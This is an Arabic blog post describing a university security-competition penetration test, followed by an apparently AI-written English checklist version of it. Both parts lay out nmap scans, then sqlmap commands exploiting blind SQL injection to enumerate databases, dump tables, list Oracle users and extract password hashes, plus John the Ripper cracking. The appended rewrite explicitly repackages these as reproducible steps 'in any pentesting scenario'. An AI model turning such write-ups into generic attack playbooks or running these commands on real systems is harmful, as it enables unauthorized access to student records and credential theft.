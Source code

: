 **المقال دا هتكلم عن طريقه استخدمتها في عمليه اختبار اختراق للنظام الامني الخاصه بالجامعه بتاعتي دي كانت مسابقه الجامعه اطلقتها امس وشاركت فيها واخدت المركز الاول بفضل الله في البدايه انا و نت رايدرز مش مسؤولين عن الطريقه لو حد استخدمها بشكل غير قانوني وهذه المقاله لزياده المعرفه**

**في البدايه اهم شئ هو جمع المعلومات او ما يسمي Information Gathering**

**مرحله تجمبع المعلومات دي اهم مرحله دي بتجمع فيها المعلومات الخاصه بالهدف بتاعك سوا هتعمل ==Active== ==Information Gathering== او ==Passive Information Gathering== الهدف اللي اشتغلت عليه هو موقع الجامعه الاساسي وهو مربوط بالنظام الامني للجامعه علي سيرفر واحد**

1:**في البدايه جمعت المعلومات اللي كنت محتاجها زي معرفه نوع نظام التشغيل السيرفر والبروتوكلات اللي شغاله عالسيرفر وبدات اخمن هيكليه النظام بالكامل اذا كان الموقع مرتبط بالنظام فممكن يكون فيه اكتر من سيرفر زي ويندوز الخ………**

**في بعض الظروف الوصول الى الويب سيرفر بمكنك من الوصول الى server DB زي لوحة التحكم بتخليك تقدر سوا هتضيف او تحذف بيانات وممكن متقدرش توصل لقاعدة البيانات والتعدٌل علٌيها من الويب فقط من داخل النظام فقط بمكنك التحكم بالموقع ومتقدرش تتحكم بقاعده البيانات طبعا اغلب مواقع الجامعات مربوطه بقواعد بيانات علشان الطلاب يدخلو يشوفو درجاتهم الخ…..**

**بعض قواعد البيانات اللي زي sql server و oracle 10g لو وصلت ليها سهل تتحكم فيها وهي اسهل بكتير من اختراق my sql**

**في البدايه كان الهدف بتاعي اني اقدر اوصل لقواعد البيانات الموجوده وطبعا الجامعات عندها شبكه واي فاي وبيستخدمو switch & routers & firewall & servers الحقيقه كان صعب اعرف مخطط او التوبولجي الخاصه بالشبكه لان اللي مصممها مهندسين متخصصين بس الموضوع مكنش عقبه كبيره وبمااني درست شبكات فعندي خبره كافيه تخليني اتوقع الطريق عالسيرفر بالظبط وبدات اشوف هل فيه جدار حمايه وقاعده البيانات وسيرفر الموقع منفصلين ولا علي سيرفر واحد**

**طبعا في ادوات كتيره في كالي لينكس قدرت اعرف بيها نوع نظام التشغيل والبورتات المفتوحه عالسيرفر عن طريق اني بعت طلب للسيرفر بطريقه خلتني اعرف البورتات المفتوحه والبروتوكولات ونوع نظام قواعد البيانات وتقدر تستخدم nmap في انك تعرف المعلومات دي بشكل ساهل**

[![](https://netriders.academy/storage/2024/07/photo_2024-07-04_11-49-09-1024x158.jpg)](https://netriders.academy/storage/2024/07/photo_2024-07-04_11-49-09.jpg)

**علشان الخصوصيه بس مش هوضح غير الامر اللي استخدمته هنا لكن نتيجه الفحص كان ظاهر فيها مستوي حمايه ومكنش فيه اي نتيجه لكن استخدمت طريقه تانيه للفحص منها tcp port scan & syn scan & udp scan دي طريقه بحب استخدمها في الفحص دايما**

**==run a tcp connect  
nmap –sT -p- -PN 172.16.45.135  
xmas tree scan  
nmap –sX -p- -PN 172.16.45.129  
null scan  
nmap –sN -p- -PN 172.16.45.129  
To run a SYN scan  
nmap –sS -p- -PN 172.16.45.135  
UDP scan against our target  
nmap –sU 172.16.45.129==**

غيرت طريقه الفحص واستخدمت امرnmap-po

[![](https://netriders.academy/storage/2024/07/photo_2024-07-04_12-04-12-1024x188.jpg)](https://netriders.academy/storage/2024/07/photo_2024-07-04_12-04-12.jpg)

**دي النتيجه لقيت بورت 80 مفتوح لكن الفايرول بيسمح بالاتصالات الخارجه والداخله عن طريق بورت 80**

**سيرفر الويب هنا بياخد البيانات من سيرفر قاعده البيانات عن طريق الشبكه الداخليه والشبكه دي عليها الفايرول اللي عملي مشكله في التخطي وعمليات الفحص طيب دلوقتي انا متصل علي سيرفر الويب بس والهدف بتاعي سيرفر قواعد البيانات وعلشان اوصل ليه محتاج اني استخدم كوبري واللي هو سيرفر الويب اللي معانا خط اتصال port 80 http ومكنش قدامي غير اختراق تطبيق الويب علشان اوصل لقواعد البيانات لقيت الدنيا قفلت في وشي ومفيش غير اني اخترق الموقع وبدات اني افحص الثغرات بشكل دقيق جدا جدا واستخدمت ادوات من لينكس زي Acunetix &w3af و ميتاسبلويت لما عملت الفحص لقيتsql من نوع blind هنا لقيت الثغره لكن مقدرتش اعمل bruteforce ومكنش قدامي غير اني اعمل اكسبلويت او حقن فااضريت اني ادخل للشبكه و بعد مدخلت استخدمت اداه sqlmap ودخلت المسار دا Cd /pentest/database/sqlmap**

**==sqlmap.py –u http://www.00000000.com/article.php?id=1 –dbs==**

**==والنتيجه ظهرتلي قاعده البيانات لكن مينفعش اعرض دا طبعا للخصوصيه وبعد مظهرت قاعده البيانات احتجت اجمع معلومات اكتر وااستخدمت الامر دا==**

**==./sqlmap.py –u http://www.0000000.com/article.php?id=1 –fingerprint==**

**==طبعا طلعت نظام قاعده البيانات وكان اوراكل ونظام السيرفر وبندوز سيرفر 2008 ولغه برمجه الموقع asp.net واصدار قاعده البيانات كان اوراكل 10g==**

**==بعد معملت كل دا كنت محتاج ارقي الصلاحيات بتاعتي واني محتاج اظهر معلومات من قاعده البيانات وااستخدمت sqlmap واستخدمت sqlninja==**

**==./sqlmap.py –u http://www.XXXX.com/article.php?id=1 –dbs والنتيجه اللي هتظهر معاك هي جميع قواعد البيانات==**

**تقدر بكل سهوله تعمل دامب للبيانات وتعرض نتايج الطلاب عن طريق الامر دا**

**==sqlmap.py –u http://www.000000.com/article.php?id=1 -D COMPUTER –table==**

**بعد كدا كنت عاوز ادخل النظام نفسه وبدات اظهر كل المستخدمين لنظام اوراكل نفسه مش الموقع عن طريق الامر دا**

**==./sqlmap.py –u http://www.XXXX.com/article.php?id=1 – – users==**

**وبعد كدا كنت عاوز اعرف كلمه السر لكن كانت مشفره واستخدمت اداه john the ripper وكتبت الامر دا**

**==./sqlmap.py –u http://www.XXXX.com/article.php?id=1 –password==**

**وبعد مكسرت تشفير الباسورد ظهرلي الباسورد اخيراااااااااا**

**طبعا فيه صور كنت واخدها اسكرين لكن مينفعش علشان الخصوصيه**

**اتمني تكونو استفادتم ومتستخدموش الطرق دي في شئ غير قانوني**

**دمتم بخير**

-- -
Sure, here is the report reformatted into a set of notes with checkboxes, focusing on the commands for reproducibility in any pentesting scenario:

```markdown
# Penetration Testing Report Notes

**Disclaimer:** This article discusses a penetration testing method used on my university's security system as part of a competition held by the university. I participated and secured the first place. This article is for educational purposes only. Neither I nor Net Raiders are responsible for any illegal use of this method.

## Information Gathering

- [ ] **Collect Necessary Information:**
  - Identify the server's operating system and protocols in use.
  - Determine the entire system architecture, including potential multiple servers like Windows, etc.

- [ ] **Determine Web Server and Database Server Setup:**
  - Verify if the web server allows access to the database server.
  - Check if the database can be accessed only from within the system or if it can be modified from the web.

- [ ] **Identify Database Types:**
  - Universities typically have databases for students to check their grades, etc.
  - Common database types: SQL Server, Oracle 10g, MySQL.

- [ ] **Understand Network Topology:**
  - Universities often use Wi-Fi, switches, routers, firewalls, and servers.
  - Predict the server's path based on network studies.

- [ ] **Identify Open Ports and Protocols:**
  - Use Kali Linux tools to identify the operating system and open ports on the server.

### Nmap Commands:

- [ ] TCP connect scan
  ```shell
  nmap -sT -p- -PN 172.16.45.135
  ```

- [ ] Xmas tree scan
  ```shell
  nmap -sX -p- -PN 172.16.45.129
  ```

- [ ] Null scan
  ```shell
  nmap -sN -p- -PN 172.16.45.129
  ```

- [ ] SYN scan
  ```shell
  nmap -sS -p- -PN 172.16.45.135
  ```

- [ ] UDP scan
  ```shell
  nmap -sU 172.16.45.129
  ```

### Findings:
- [x] Port 80 was open, allowing both incoming and outgoing connections.
- [x] The web server retrieves data from the database server through the internal network, protected by a firewall.

## Exploitation Phase

- [ ] **Attempt to Bypass the Firewall:**
  - Focus on exploiting the web application to access the database server.

- [ ] **Scan for Vulnerabilities:**
  - Use tools like Acunetix, w3af, and Metasploit for a thorough vulnerability scan.
  - Identified a blind SQL injection vulnerability.

- [ ] **Exploit the SQL Injection:**
  - Use `sqlmap` for SQL injection and database enumeration.

### Sqlmap Commands:

- [ ] Initial database enumeration
  ```shell
  sqlmap.py -u http://www.00000000.com/article.php?id=1 --dbs
  ```

- [ ] Database fingerprinting
  ```shell
  ./sqlmap.py -u http://www.0000000.com/article.php?id=1 --fingerprint
  ```

- [ ] List all databases
  ```shell
  ./sqlmap.py -u http://www.XXXX.com/article.php?id=1 --dbs
  ```

- [ ] Dump specific database tables
  ```shell
  sqlmap.py -u http://www.000000.com/article.php?id=1 -D COMPUTER --tables
  ```

- [ ] Enumerate database users
  ```shell
  ./sqlmap.py -u http://www.XXXX.com/article.php?id=1 --users
  ```

- [ ] Retrieve passwords (encrypted)
  ```shell
  ./sqlmap.py -u http://www.XXXX.com/article.php?id=1 --password
  ```

### Post-Exploitation:

- [ ] **Decrypt Passwords:**
  - Use `John the Ripper` to decrypt the retrieved passwords.

```shell
# Using John the Ripper to decrypt passwords
john /path/to/password/file
```

## Conclusion

- This methodology was used to secure first place in the university's competition.
- Ensure ethical use of these methods and tools.
- Screenshots were taken but are not included here for privacy reasons.

**Stay safe and use this knowledge responsibly.**

**Best regards,**
[Your Name]
```

This format focuses on actionable steps and commands, making it easier to reproduce the process in any pentesting scenario.